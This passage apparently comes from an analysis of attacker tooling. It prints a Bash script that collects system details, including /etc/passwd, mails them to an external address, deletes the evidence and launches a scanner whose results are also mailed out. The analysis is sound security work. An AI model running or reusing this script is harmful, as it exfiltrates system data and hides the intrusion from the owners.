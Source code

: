 ... because disabling `mail` totally hides your tracks, yo.

The script `scam` contains a variation of the script seen above:

    #!/bin/bash
    echo "[+] [+] [+] RK [+] [+] [+]" >> info2
    echo "[+] [+] [+] IP [+] [+] [+]" >> info2
    /sbin/ifconfig -a >> info2
    echo "[+] [+] [+] uptime [+] [+] [+]" >> info2
    uptime >> info2
    echo "[+] [+] [+] uname -a [+] [+] [+]" >> info2
    uname -a >> info2
    echo "[+] [+] [+] /etc/issue [+] [+] [+]" >> info2
    cat /etc/issue >> info2
    echo "[+] [+] [+] passwd [+] [+] [+]" >> info2
    cat /etc/passwd >> info2
    echo "[+] [+] [+] id [+] [+] [+]" >> info2
    id >> info2
    echo "[+] [+] [+] Spatiu Hdd / pwd [+] [+] [+]" >> info2
    df -h >> info2
    pwd >> info2
    cat info2 | mail -s "Scanner MaLa Port : ?? | Pass : stii tu :))" mafia89tm@yahoo.com
    rm -rf info2
    clear

    echo "####################################################################"
    echo "#                          ______                                  "
    echo "#                        .-.      .-.                               "
    echo "#                       /            \                              "
    echo "#                      |     zRR      |                             "
    echo "#                      |,  .-.  .-.  ,|                             "
    echo "#                      | )(z_/  \z_)( |                             "
    echo "#                      |/     /\     \|                             "
    echo "#              _       (_     ^^     _)                             "
    echo "#      _\ ____) \_______\__|IIIIII|__/_________________________     "
    echo "#     (_)[___]{}<________|-\IIIIII/-|__zRR__zRR__zRR___________\    "
    echo "#       /     )_/        \          /                               "
    echo "#                         \ ______ /                              "
    echo "#                         SCANER PRIVAT                             "
    echo "#             SCANER FOLOSIT DOAR DE TEAMUL MaLaSorTe               "
    echo "#            SACNERUL CONTINE UN PASS_FLIE DE 3MEGA !!              "
    echo "####################################################################"

    if [ -f a ]; then
    cat vuln.txt |mail -s "Lame Gang Us Roots" mafia89tm@yahoo.com
    ./a $1.0
    ./a $1.1
    ./a $1.2
    ./a $1.3
    ./a $1.4
    ./a $1.5
    ./a $1.6
    ./a $1.7
    ./a $1.8
    ./a $1.9
    ./a $1.10
    cat vuln.txt |mail -s "Lame Gang Us Roots" mafia89tm@yahoo.com
